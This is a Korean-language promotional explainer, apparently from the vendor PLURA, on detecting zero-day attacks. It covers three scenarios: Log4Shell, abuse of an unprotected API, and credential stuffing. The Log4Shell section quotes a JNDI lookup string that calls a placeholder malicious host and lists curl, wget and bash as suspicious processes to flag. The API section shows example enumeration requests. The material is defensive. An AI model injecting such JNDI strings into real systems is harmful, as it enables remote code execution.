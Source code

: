 ### **📌 제로 데이(Zero-Day) 공격 탐지 및 대응 – 사례 및 시나리오**  

#### **🔍 제로 데이 공격이란?**  
**제로 데이 공격**(Zero-Day Attack)은 보안 취약점이 발견되었지만, 아직 공식적인 패치나 대응 방법이 제공되지 않은 상태에서 공격자가 이를 악용하는 사이버 공격입니다.  
기존 보안 시스템(SIEM, WAF, NDR 등)은 **이미 알려진 공격 패턴(시그니처, 룰 기반 탐지)에 의존하기 때문에** 제로 데이 공격을 탐지하기 어렵습니다.  

PLURA의 **웹 요청 본문 로그 분석 + EDR**을 활용하면, 제로 데이 공격을 보다 효과적으로 탐지하고 대응할 수 있습니다.  

---

## 📌 **제로 데이 공격 사례 및 탐지 시나리오**  

### **📌 사례 1: Log4j(Log4Shell) 취약점 공격 탐지**  
#### **📌 공격 개요**  
2021년 12월, **Log4j**(Log4Shell) 취약점(CVE-2021-44228)이 발견되었습니다.  
- 공격자는 웹 애플리케이션의 **입력 필드**(검색창, 로그인 폼 등)에 **특정 문자열**(JNDI 요청 포함)을 삽입하여 원격 코드 실행(RCE, Remote Code Execution)을 수행할 수 있었습니다.  
- WAF 및 기존 보안 솔루션이 이 패턴을 알기 전까지는, 탐지가 어려운 전형적인 제로 데이 공격이었습니다.  

#### **📌 기존 WAF/보안 시스템의 한계**  
- WAF는 **시그니처 기반 필터링**에 의존하여 알려진 공격 패턴이 없으면 탐지 불가.  
- SIEM은 **로그 기반 상관 분석**을 수행하지만, 요청 본문에 포함된 악성 문자열 분석이 어려움.  
- NDR은 네트워크 트래픽을 분석할 수 있지만, **웹 요청 본문**(Post-body, JSON, XML 등)의 정밀 분석은 부족함.  

#### **📌 PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
- PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 의심스러운 패턴을 탐지 가능.  
- 검색창, 유저 입력값, 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  

✅ **2) EDR 연계를 통한 공격 실행 탐지 및 차단**  
- 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우, PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트(Fork, Execve) 탐지**.  
- `curl`, `wget`, `bash` 등의 의심스러운 프로세스 실행 감지 후 자동 차단 가능.  

✅ **3) 행위 기반 분석 및 상관 탐지를 통해 추가 공격 탐지**  
- 기존 공격 패턴과 일치하지 않아도, **LDAP/RMI 요청 이후 특정 프로세스가 실행되는 패턴을 탐지하여 추가 공격 차단**.  

---

### **📌 사례 2: 웹 애플리케이션의 신규 API 취약점 악용** (Zero-Day API Attack)  
#### **📌 공격 개요**  
어떤 웹 애플리케이션이 신규 API 기능을 추가했지만, 이 API에 **적절한 인증 및 접근 제어가 적용되지 않음**.  
- 공격자는 **API 엔드포인트(예: `/api/getUserData` 또는 `/api/resetPassword` 등)**를 브루트포싱하여 사용자 계정 정보를 탈취.  
- 정상적인 API 요청처럼 보이므로, **기존 보안 솔루션(WAF, NDR, SIEM)은 이를 탐지하기 어려움**.  

#### **📌 기존 WAF/보안 시스템의 한계**  
- WAF는 **정상적인 API 요청처럼 보이면 탐지 불가**.  
- SIEM은 **로그 기반 분석이므로, 해당 API 요청이 반복되는 이상 행위를 실시간 탐지 어려움**.  
- NDR은 **네트워크 트래픽의 이상 탐지는 가능하지만, API의 내부 로직 및 요청 본문 분석 불가**.  

#### **📌 PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) API 요청 본문을 분석하여 비정상적인 요청 패턴 탐지**  
- 동일한 사용자가 **짧은 시간 동안 여러 사용자 계정의 정보를 요청하는 경우** 이상 탐지 가능.  
- 정상적인 API 호출과 비교하여 **비정상적인 파라미터 조작**(예: User ID 변경, Role 변경 등) 탐지 가능.  

✅ **2) 웹 애플리케이션 로그와 사용자 행동 데이터를 상관 분석**  
- 정상 사용자는 `GET /api/getUserData?userId=1234` 요청을 한 번만 수행하지만,  
  - 공격자는 여러 `userId`를 변경하여 반복 요청 (`GET /api/getUserData?userId=5678`, `userId=91011` 등).  
- 이러한 **비정상적인 액세스 패턴을 분석하여 자동 탐지 및 차단 가능**.  

✅ **3) EDR을 활용한 추가 보안 탐지**  
- API를 악용하여 웹 서버에 악성 페이로드가 업로드될 경우,  
  - **파일 무결성**(FIM, File Integrity Monitoring) 기능을 통해 웹 서버 파일이 변조되는 즉시 탐지 가능.  

---

### **📌 사례 3: 크리덴셜 스터핑을 이용한 계정 탈취 공격 (Zero-Day Credential Stuffing Attack)**  
#### **📌 공격 개요**  
- 공격자는 다크웹에서 유출된 계정 정보를 활용하여 로그인 시도를 반복하여 성공한 계정을 확보.  
- 기존 보안 솔루션은 **정상적인 로그인 요청과 동일하게 보이기 때문에 탐지 어려움**.  

#### **📌 기존 WAF/보안 시스템의 한계**  
- WAF는 **정상적인 로그인 요청처럼 보이면 탐지 불가**.  
- SIEM은 **로그인 실패 횟수를 기록하지만, 공격 패턴을 실시간 분석 어려움**.  
- NDR은 **트래픽 이상 탐지는 가능하지만, 로그인 요청 본문 분석 불가**.  

#### **📌 PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) 로그인 요청 패턴을 실시간 분석하여 크리덴셜 스터핑 공격 탐지**  
- 동일 IP에서 짧은 시간 내 다수의 로그인 요청 감지.  
- 동일 User-Agent에서 여러 사용자 계정으로 로그인 시도 시 탐지.  

✅ **2) AI 기반 이상 탐지 적용**  
- 정상 사용자의 로그인 패턴과 비교하여 **비정상적인 로그인 시도 탐지**.  
- 특정 시간대에 급증하는 로그인 시도를 자동 감지하여 차단 가능.  

✅ **3) 사용자 행동 분석 및 MFA 강제 적용 가능**  
- 로그인 시도 후 즉시 비정상적인 행동(예: 비밀번호 변경, 2FA 설정 변경 등)이 감지되면 **즉각 차단 및 추가 인증 요구**.  

---

### **📌 결론: PLURA 웹 요청 본문 분석 + EDR을 통한 제로 데이 탐지 및 대응**  

✅ **기존 보안 시스템(WAF, SIEM, NDR, TI)은 알려진 공격 패턴만 탐지 가능하므로, 제로 데이 공격을 효과적으로 탐지하지 못함.**  
✅ **PLURA의 웹 요청 본문 분석은 새로운 공격 패턴을 실시간으로 분석하여, 알려지지 않은 제로 데이 공격 탐지 가능.**  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단.**  
✅ **공격 흐름을 상관 분석하고 이상 행위를 탐지하여, Zero-Day 공격이 실시간으로 탐지 및 차단될 수 있도록 지원.**  

🔹 **PLURA-XDR은 웹 요청 본문 분석과 EDR을 결합하여 기존 보안 솔루션이 탐지하지 못하는 제로 데이 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀
